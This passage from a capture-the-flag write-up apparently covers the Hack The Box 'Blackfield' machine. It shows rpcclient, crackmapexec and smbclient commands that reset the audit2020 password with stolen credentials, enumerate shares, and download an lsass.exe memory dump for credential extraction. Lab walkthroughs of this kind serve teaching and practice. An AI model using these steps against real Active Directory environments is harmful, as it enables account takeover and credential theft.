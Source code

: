 ![]({{page.assets_path}}/008.png)

### **rpc**

We changed the password of the user `audit2020` to `Password@123`.

```sh
rpcclient -U blackfiled.local/support%'#00^BlackKnight' 10.10.10.192
rpcclient $> setuserinfo2 audit2020 23 'Password@123'
```

> `setuserinfo2 [username] [level] [password] [password_expired]`
>
> All the parameters are self explanatory except for the `level` which represents the `USER_INFORMATION_CLASS` we wish to update.
> `23` is the level that will allow us to change the user's password
>
> To learn more about the `USER_INFORMATION_CLASS` refer to [Microsoft Docs](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/6b0dff90-5ac0-429a-93aa-150334adabf6?redirectedfrom=MSDN)
> 
{: .prompt-info}

![]({{page.assets_path}}/009.png)

As `audit2020` we had access to a new share `forensic`.

```sh
crackmapexec smb blackfield.local -u 'audit2020' -p 'Password@123' --shares
```

![]({{page.assets_path}}/010.png)

After accessing the `forensic` share using `smbclient.py`.

```sh
smbclient.py blackfield.local/audit2020:'Password@123'@10.10.10.192
```

We exfiltrated a file named `lsass.zip`.

```
# use forensic
# cd memory_analysis
# get lsass.zip
```

![]({{page.assets_path}}/011.png)

After unzipping it, we got a file `lsass.DMP`, a memory dump of the `lsass.exe` process

```sh
unzip lsass.zip
```

![]({{page.assets_path}}/012.png)
